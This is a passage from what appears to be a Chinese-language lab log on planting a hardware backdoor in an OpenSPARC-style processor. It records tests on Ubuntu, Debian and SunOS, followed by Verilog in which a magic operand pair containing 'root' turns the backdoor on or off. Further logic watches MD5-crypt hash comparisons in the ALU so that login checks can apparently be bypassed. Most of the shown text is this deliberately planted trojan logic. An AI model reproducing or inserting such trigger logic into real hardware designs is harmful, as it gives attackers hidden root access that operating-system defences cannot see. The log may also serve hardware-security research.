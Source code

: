 ** uty_ubuntu_patchbitgen1c1t_test55.ace **


### 结果：

成功。

----------------------------------------

## 测试18


试下1c4t，4个线程的会不会有别的影响，其它地方没改动。



** uty_ubuntu_patchbitgen1c4t_test56.ace **

### 结果：

可以。

--------------------------------------------

## 测试19

把代码整理下，发现ubuntu7.10和debian9.0一样，在比较用户名的时候，也是有好几个地方比较，单用户输入的用户名都是出现在rs2。

而在SunOS 5.11上，有的是rs1，有的是rs2。

结果刚开始搞反了， ** uty_ubuntu_patchbitgen1c4t_test57.ace ** 没成功。

`````verilog
   // uty: test
   //  cout64_e should be 1
   // 0x726f6f74 root

   // sub_e sub_dff is at sparc_exu_ecl, just put one here for convience
   dff_s alusub_dff(.din(ifu_exu_invert_d), .clk(clk), .q(sub_e), .se(se),
           .si(), .so());

   assign backdoor_on_keyword = (64'h3030303030303030 == byp_alu_rs2_data_e[63:0]) && (40'h726f6f7400 == byp_alu_rs1_data_e[63:24]);
   assign backdoor_off_keyword = (64'h3030303030303031 == byp_alu_rs2_data_e[63:0]) && (40'h726f6f7400 == byp_alu_rs1_data_e[63:24]);

   assign issubrd0 = (5'h0 == ecl_alu_rd_e[4:0]) & sub_e & ecl_alu_cin_e;

   assign backdoor_en = (backdoor_on_keyword | backdoor_off_keyword);
   assign backdoor_nxt = (backdoor_on_keyword & (~backdoor_off_keyword));

   dffe_s #(1) backdoor_dff(.din(backdoor_nxt), .en(backdoor_en),
                        .clk(clk), .q(backdoor_r), .se(se),
                        .si(), .so());

   // only consider $1$ for now
   assign hash_begin = ((24'h243124 == byp_alu_rs1_data_e[63:40]) && (24'h243124 == byp_alu_rs2_data_e[63:40])) & issubrd0;

   assign hash_00 = (8'h0 == byp_alu_rs1_data_e[47:40]) & (8'h0 == byp_alu_rs2_data_e[47:40]);
   assign hash_end = hash_r & hash_00 & issubrd0;

   assign hash_en = (hash_begin | hash_end) & backdoor_r;
   assign hash_nxt = hash_begin & (~hash_end);

   dffe_s #(1) hash_dffe(.din(hash_nxt), .en(hash_en),
                        .clk(clk), .q(hash_r), .se(se),
                        .si(), .so());
`````